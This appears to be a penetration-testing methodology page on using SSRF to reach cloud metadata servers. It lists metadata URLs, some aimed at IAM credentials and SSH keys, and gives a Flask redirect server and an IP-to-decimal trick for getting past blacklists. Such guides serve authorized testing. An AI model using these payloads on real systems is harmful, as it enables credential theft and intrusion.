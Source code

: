 If the application you are testing is hosted in the cloud, it is likely that the application's host machine uses a metadata server. The metadata server serves sensitive information, including IAM credentials, internal IP addresses/hostnames, and software versions. 

If you are 100% confident that the application you are testing is not hosted in the cloud, move to [[Identify Active Internal Services]]. You should also move to [[Identify Active Internal Services]] if your SSRF is blind (i.e., you cannot read the response). 

This Impact Technique has one step:
1. Issue requests to internal metadata server URLs

# 1.  Issue requests to metadata server URLs
With the SSRF you've identified, swap out the URL with each of the items from the list below that correspond to your application's cloud provider:
```
## AWS
# from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories

http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

# AWS - Dirs 
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/public-keys/

## Google Cloud
#  https://cloud.google.com/compute/docs/metadata
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id

# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

## Google
#  Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

http://metadata.google.internal/computeMetadata/v1beta1/

## Digital Ocean
# https://developers.digitalocean.com/documentation/metadata/

http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

## Packetcloud
https://metadata.packet.net/userdata

## Azure
#  Limited, maybe more exist?
# https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
http://169.254.169.254/metadata/v1/maintenance

## Update Apr 2017, Azure has more support; requires the header "Metadata: true"
# https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

## OpenStack/RackSpace 
# (header required? unknown)
http://169.254.169.254/openstack

## HP Helion 
# (header required? unknown)
http://169.254.169.254/2009-04-04/meta-data/ 

## Oracle Cloud
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/

## Alibaba
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```
- Courtesy of: https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

You may also find the following links useful:
- [AWS Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [GCP Metadata](https://cloud.google.com/compute/docs/metadata/overview)
- [Azure Metadata](https://learn.microsoft.com/en-us/azure/virtual-machines/instance-metadata-service?tabs=windows)

If none of the URLs for your cloud provider work, but you can redirect to arbitrary external URLs, try some of the techniques below:

## Bypassing SSRF Blacklists
Sometimes the application developers will anticipate SSRF vulnerabilities and use a blacklist to block requests for specific URLs. If this is the case, you can try to host an external server to redirect the request to the metadata server. Developers do not always check the blacklist for both the initial request URL and any subsequent redirect URLs. 

For example, you could host the following Python application on a cloud VM:
```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/redirect_302', methods=["GET", "POST"])
def redirect302():
    return redirect("METADATA-URL")

@app.route('/redirect_307', methods=["GET", "POST"])
def redirect307():
    return redirect("METADATA-URL")


app.run(host='0.0.0.0', port=8000)
```
- Replace `METADATA-URL` with the metadata URL you observed getting blocked.
- When you boot your VM up, take note of it's IP address (`EXTERNAL-SERVER-IP)

If you are trying to issue a `GET` request to the metadata server, you would then use the following URL in your SSRF payload: `http://EXTERNAL-SERVER-IP:8000/redirect_302`

If you are trying to issue a non-`GET` request to the metadata server, you would then use the following URL in your SSRF payload: `http://EXTERNAL-SERVER-IP:8000/redirect_307`


If the backend is blocking all IP addresses with a regex, you may also try to convert your IP address into decimal format to bypass the regex:
```python
import socket, struct, sys

def ip2long(ip):
    packedIP = socket.inet_aton(ip)
    return struct.unpack("!L", packedIP)[0]

print(ip2long(sys.argv[1]))
```
```
% python convert_ip.py 142.250.113.138
2398777738
```

In this case, you would try `https://2398777738` instead.

## Bypassing IMDSv2
Cloud administrators frequently enable IMDSv2 (or equivalent) on their metadata servers. This essentially requires specially crafted HTTP requests to retrieve any metadata. IMDSv2 is designed in part to protect against SSRF attacks, as you cannot retrieve data from an IMDSv2 metadata server using a simple GET request. While the precise formats/requirements depend on the cloud provider, they generally require:
- A non-GET HTTP method (usually PUT)
- A special HTTP header set

Because of these requirements, when IMDSv2 is enabled, you can only achieve this Impact Technique if you also have control over the HTTP method and HTTP headers in the request. The `redirect_307` URL in the Flask server above can come in handy here to bounce a PUT or POST request off your external server and to the metadata server, but you will still need some method of manipulating HTTP headers. 

There are no silver bullets here, unfortunately. Review the full functionality of the feature that is vulnerable to SSRF and its backend source code. It is possible that the feature allows users to set their own HTTP headers or has a vulnerability in the source code that enables the user to manipulate headers (e.g., `\r\n` injection). But barring these unusual circumstances, you will not be able to achieve this Impact Technique. Proceed to [[Identify Active Internal Services]].
